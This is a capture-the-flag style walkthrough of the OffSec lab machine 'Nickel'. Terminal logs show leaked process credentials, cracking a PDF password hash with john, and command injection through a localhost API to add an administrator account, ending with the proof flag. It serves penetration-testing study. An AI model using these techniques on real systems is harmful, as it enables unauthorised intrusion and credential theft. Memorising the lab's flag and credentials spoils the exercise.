



# Nickel 

## Enumeration

### nmap


* SMB and FTP are not accessible using default credentials.

* http points to a dashboard page.



* The dashboard references multiple endpoints. Sending direct GET requests to these endpoints returns unexpected responses, which hints at improper request handling.

```
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/nickel]
└─$ curl -X GET http://192.168.227.99:33333/list-active-nodes    
<p>Cannot "GET" /list-active-nodes</p>                                                                                                        
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/nickel]
└─$ curl -X GET http://192.168.227.99:33333/list-running-procs   
<p>Cannot "GET" /list-running-procs</p>                                
```
* The error message suggests that these endpoints exist but do not support the GET method. This often indicates that another HTTP method (such as POST) is expected.
  
## Initial Access

* We send a POST request.

```
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/nickel]
└─$ curl -X POST http://192.168.227.99:33333/list-running-procs -H 'Content-Length: 0'

.
.
name        : cmd.exe
commandline : cmd.exe C:\windows\system32\DevTasks.exe --deploy C:\work\dev.yaml --user ariah -p 
              "Tm93aXNlU2xvb3BUaGVvcnkxMzkK" --server nickel-dev --protocol ssh

name        : powershell.exe
commandline : powershell.exe -nop -ep bypass C:\windows\system32\ws8089.ps1
.
.

```
* The application leaks sensitive process command-line arguments. One of the processes exposes a username (ariah) and a Base64-encoded password.

```
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/nickel]
└─$ echo 'Tm93aXNlU2xvb3BUaGVvcnkxMzkK' | base64 -d                                                   
NowiseSloopTheory139
```
* These credentials allow SSH access to the target.

## Priv Esc

* Inside C:\ftp, a password-protected PDF file is discovered.

```
PS C:\ftp> scp C:\ftp\Infrastructure.pdf kali@192.168.45.174:/home/kali/Desktop
kali@192.168.45.174's password:
Infrastructure.pdf                                                    100%   45KB 206.4KB/s   00:00 
```
* Extracting the hash

```
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/nickel]
└─$ pdf2john Infrastructure.pdf > pdf.hash 
                                                                                                        
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/nickel]
└─$ cat pdf.hash                                                                      
Infrastructure.pdf:$pdf$4*4*128*-1060*1*16*14350d814f7c974db9234e3e719e360b*32*6aa1a24681b93038947f76796470dbb100000000000000000000000000000000*32*d9363dc61ac080ac4b9dad4f036888567a2d468a6703faf6216af1eb307921b0
```
* Cracking the hash
```
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/nickel]
└─$ john pdf.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 1 password hash (PDF [MD5 SHA2 RC4/AES 32/64])
Cost 1 (revision) is 4 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ariah4168        (Infrastructure.pdf)     
1g 0:00:02:43 DONE (2025-12-16 06:19) 0.006124g/s 61266p/s 61266c/s 61266C/s ariah4168..ariadne01
Use the "--show --format=PDF" options to display all of the cracked passwords reliably
Session completed. 
                                                                                                        
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/nickel]
└─$ john --show pdf.hash
Infrastructure.pdf:ariah4168

1 password hash cracked, 0 left

```



*The document references internal services, including an internal HTTP endpoint (http://nickel/).

```
PS C:\ftp> netstat -ano
Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:21             0.0.0.0:0              LISTENING       1900
  TCP    0.0.0.0:22             0.0.0.0:0              LISTENING       1976
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       836
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       1004
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       364
  TCP    0.0.0.0:8089           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:33333          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       620
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       520
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       408
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       1012
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       612
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       1820
  TCP    127.0.0.1:80           0.0.0.0:0              LISTENING       4
  
```

* A web service is bound only to localhost, meaning it is inaccessible externally but reachable from the compromised host.
  
* The internal web service directly executes system commands passed as query parameters and runs them as NT AUTHORITY\SYSTEM, representing a critical command execution vulnerability.
  
```
ariah@NICKEL C:\ftp>curl http://127.0.0.1/
<!doctype html><html><body>dev-api started at 2025-12-07T05:47:35

        <pre></pre>
</body></html>
```
```
ariah@NICKEL C:\ftp>curl http://127.0.0.1/?whoami
<!doctype html><html><body>dev-api started at 2025-12-07T05:47:35

        <pre>nt authority\system
</pre>
</body></html>
```

* A new user is created and added to the local Administrators group, providing persistent administrative access


```
ariah@NICKEL C:\ftp>curl http://127.0.0.1/?net%20user%20park%20park123%20%2Fadd%0A
<!doctype html><html><body>dev-api started at 2025-12-07T05:47:35

        <pre>The command completed successfully.

</pre>
</body></html>
```
```
ariah@NICKEL C:\ftp>curl http://127.0.0.1/?net%20localgroup%20Administrators%20park%20%2Fadd
<!doctype html><html><body>dev-api started at 2025-12-07T05:47:35

        <pre>The command completed successfully.

</body></html>
```

* Administrator Shell Access
```
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/nickel]
└─$ ssh park@192.168.227.99                                            
park@192.168.227.99's password: 

park@NICKEL C:\Users\Administrator\Desktop>type proof.txt
e6527b228a924e668c23248d75e7550f

```


